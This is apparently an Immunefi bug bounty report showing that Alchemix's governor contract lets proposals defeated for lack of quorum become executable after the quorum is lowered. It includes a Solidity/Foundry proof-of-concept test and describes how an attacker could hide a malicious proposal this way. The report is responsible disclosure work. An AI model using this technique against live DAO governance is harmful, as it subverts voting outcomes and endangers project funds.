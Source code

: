 
# Past defeated proposals may become executable if the quorum requirement is lowered

Submitted on Tue Apr 30 2024 12:46:43 GMT-0400 (Atlantic Standard Time) by @mt030d for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30556

Report type: Smart Contract

Report severity: Low

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/AlchemixGovernor.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
The `AlchemixGovernor` contract inherits the `L2GovernorVotesQuorumFraction` contract, which is based on an outdated version of OpenZeppelin's `GovernorVotesQuorumFraction` contract that has a known vulnerability.

This vulnerability allows past proposals to become executable if they were defeated only due to a lack of quorum, and the number of votes they received meets the new quorum requirement.

## Vulnerability Details
The `AlchemixGovernor` contract inherits the `L2GovernorVotesQuorumFraction` contract, a modified version of OpenZeppelin's `GovernorVotesQuorumFraction` contract at version v4.5.0. However, this version has a [known vulnerability](https://github.com/OpenZeppelin/openzeppelin-contracts/security/advisories/GHSA-xrc4-737v-9q75), patched in v4.7.2.

As a result, the `AlchemixGovernor` contract is affected by the same vulnerability: when a proposal is passed to lower the quorum requirement, past proposals may become executable if they were defeated only due to a lack of quorum, and the number of votes they received meets the new quorum requirement.

Please see the PoC for a concrete scenario of this vulnerability.

## Impact Details
An under-quorum proposal should be unable to execute after the vote period. 

However, when a proposal is passed to lower the quorum requirement, past proposals become executable if they were defeated only due to a lack of quorum, and the number of votes they received meets the new quorum requirement.

A malicious user could propose a malicious proposal and vote for it. Since it's below the quorum, it may go unnoticed by the DAO. Later, they can propose a proposal to lower the quorum for other valid reasons. If the proposal is executed, their hidden malicious proposal may become executable, potentially causing monetary and reputational harm to the project.

## References
- [AlchemixGovernor contract](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/AlchemixGovernor.sol#L16)
- [L2GovernorVotesQuorumFraction contract](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/governance/L2GovernorVotesQuorumFraction.sol)
- [The issue for OpenZeppelin's GovernorVotesQuorumFraction](https://github.com/OpenZeppelin/openzeppelin-contracts/security/advisories/GHSA-xrc4-737v-9q75) 

        
## Proof of concept
## Proof of Concept

```solidity
// ./test/PoC.t.sol
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/test/BaseTest.sol";

contract PoC is BaseTest {
    function setUp() public {
        setupContracts(block.timestamp);

        // Create veALCX for admin
        createVeAlcx(admin, TOKEN_100K, MAXTIME, false);

        // Create veALCX for 0xbeef
        createVeAlcx(beef, TOKEN_1 * 10_000, MAXTIME, false);

        // Can't propose and vote in the same block as a veALCX is created
        hevm.warp(block.timestamp + 1);
    }

    function test_PastDefeatedProposalCanPassAfterQuorumDecrease() public {
        assertFalse(voter.isWhitelisted(usdc));

        // craft a proposal to make voter whitelist usdc
        (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();

        // propose
        hevm.startPrank(admin);
        uint256 pid = governor.propose(t, v, c, d, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // delay
        hevm.stopPrank();

        // vote
        hevm.startPrank(beef);
        governor.castVote(pid, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        hevm.stopPrank();

        uint256 votingPower = veALCX.getVotes(beef);
        uint256 quorum = governor.quorum(block.timestamp);
        assertGt(quorum, votingPower, "quorum should be greater than voting power");

        // execute - fail due to lack of quorum
        hevm.expectRevert(abi.encodePacked("Governor: proposal not successful"));
        governor.execute(t, v, c, keccak256(bytes(d)), MAINNET);

        // assume the DAO decides to decrease the QuorumNumerator
        updateQuorumNumerator(50);

        // As a result, a a past defeated proposal due to lack of quorum now meets the new quorum requirement
        votingPower = veALCX.getVotes(beef);
        quorum = governor.quorum(block.timestamp);
        assertLt(quorum, votingPower, "quorum should be less than voting power");


        // now the past defeated proposal can be executed
        governor.execute(t, v, c, keccak256(bytes(d)), MAINNET);
        assertTrue(voter.isWhitelisted(usdc));
    }

    function craftTestProposal()
        internal
        view
        returns (address[] memory targets, uint256[] memory values, bytes[] memory calldatas, string memory description)
    {
        targets = new address[](1);
        targets[0] = address(voter);
        values = new uint256[](1);
        values[0] = 0;
        calldatas = new bytes[](1);
        calldatas[0] = abi.encodeWithSelector(voter.whitelist.selector, usdc);
        description = "Whitelist USDC";
    }

    function updateQuorumNumerator(uint256 newQuorumNumerator) internal {

        address[] memory targets = new address[](1);
        targets[0] = address(governor);
        uint256[] memory values = new uint256[](1);
        values[0] = 0;
        bytes[] memory calldatas = new bytes[](1);
        calldatas[0] = abi.encodeWithSelector(governor.updateQuorumNumerator.selector, newQuorumNumerator);
        string memory description = "Update QuorumNumerator";

        hevm.startPrank(admin);
        uint256 pid = governor.propose(targets, values, calldatas, description, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // delay

        governor.castVote(pid, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay

        governor.execute(targets, values, calldatas, keccak256(bytes(description)), MAINNET);
        hevm.stopPrank();
    }
}
```
This PoC inherits the [BaseTest](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/test/BaseTest.sol )  contract for its `setupContracts()` and `createVeAlcx()` functionalities.

The `test_PastDefeatedProposalCanPassAfterQuorumDecrease()` test case demonstrates the following scenario:
1. An admin proposes a proposal to whitelist USDC in the Voter contract.
2. The user (beef) votes in favor of this proposal.
3.	After the voting period, the proposal cannot be executed since the quorum is not reached.
4.	However, if the DAO later decides to decrease the quorum requirement, the previously defeated proposal can now pass and be executed.

Run the PoC using the following command:
```
forge test --mt test_PastDefeatedProposalCanPassAfterQuorumDecrease --fork-url $URL --fork-block-number=17133822
``` 
This should pass the test case.